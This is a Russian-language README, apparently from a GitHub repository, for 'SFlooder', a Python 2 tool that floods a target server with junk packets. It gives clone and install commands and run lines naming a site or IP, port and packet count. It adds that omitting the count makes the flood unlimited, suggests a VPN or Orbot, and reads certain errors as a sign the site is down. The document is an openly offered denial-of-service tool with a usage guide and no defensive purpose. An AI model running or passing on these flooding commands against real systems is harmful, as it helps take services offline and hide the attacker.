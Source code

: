 ## SFlooder
#### Немного о программе
Эта программа создаёт нагрузку на сервер посылая на него так называемый «Мусор»
#### Запуск
1. Устанавливаем git(pkg install git)
2. Устанавливаем python(2 версия) командой: 
apt install python2
3. Устанавливаем git командой:
git clone http://github.com/YamkaFox/sflooder.git
4. Переходим в папку с файлом(cd sflooder)
5. Запускаем наш файл командой:
python2 SFlooder.py {айпи или название сайта} {порт} {сколько пакетов} вы хотите отослать
Например:
## python2 SFlooder.py https://example.com 80 1000000
Или же:
## python2 SFlooder.py 192.168.0.1 80 100000000
Если вы не напишите число пакетов, то нагрузка будет бесконечной!
Если на сайте,на который идёт атака вылетает ошибка 24 - значит нехватка интернета(юзайте ThunderVPN или Orbot)
Если ошибка 107 - сайт положен!
Если ошибка 404 - такой страницы не существует!
Если ошибка 502 - сайт перегружен или разорвал соединение
#### Создатель
[Кирилл(https://vk.com/yamkayt)]
#### Создатели FAQ:
[Матвей(https://vk.com/id483313209)]
[Максим(https://vk.com/levenchick)]
1
